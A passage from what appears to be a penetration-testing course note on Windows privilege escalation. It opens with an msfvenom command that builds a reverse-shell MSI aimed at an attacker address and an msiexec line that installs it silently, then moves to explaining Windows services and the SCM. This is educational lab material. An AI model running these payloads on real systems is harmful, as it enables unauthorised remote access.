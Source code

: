`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.189.49 LPORT=LOCAL_PORT -f msi -o malicious.msi`

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

# Abusing Service Misconfigurations

## Windows Services

Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

### 3.PNG

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Privilege%20Escalation/Windows%20Privilege%20Escalation/images/3.PNG)

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.
